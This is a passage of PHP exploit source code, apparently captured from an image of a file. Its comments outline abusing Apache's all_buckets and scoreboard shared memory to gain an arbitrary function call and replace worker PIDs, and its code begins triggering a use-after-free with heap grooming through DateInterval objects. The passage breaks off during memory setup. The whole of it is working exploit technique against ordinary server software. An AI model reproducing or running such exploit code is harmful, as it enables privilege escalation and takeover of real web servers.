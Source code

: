     # - Find out all_buckets' position by finding a memory region that matches the
    #   mutex->meth structure
    # - Compute the bucket index required to reach the SHM and get an arbitrary
    #   function call
    # - Scan ap_scoreboard_image->parent[] to find workers' PID and replace the
    #   bucket
    class Z implements JsonSerializable
    {
        public function jsonSerialize()
        {
            global $y, $addresses, $workers_pids;

            #
            # Setup memory
            #
            o('Triggering UAF');
            o('  Creating room and filling empty spaces');

            # Fill empty blocks to make sure our allocations will be contiguous
            # I: Since a lot of allocations/deallocations happen before the script
            # is ran, two variables instanciated at the same time might not be
            # contiguous: this can be a problem for a lot of reasons.
            # To avoid this, we instanciate several DateInterval objects. These
            # objects will fill a lot of potentially non-contiguous memory blocks,
            # ensuring we get "fresh memory" in upcoming allocations.
            $contiguous = [];
            for($i=0;$i<10;$i++)
                $contiguous[] = new DateInterval('PT1S');
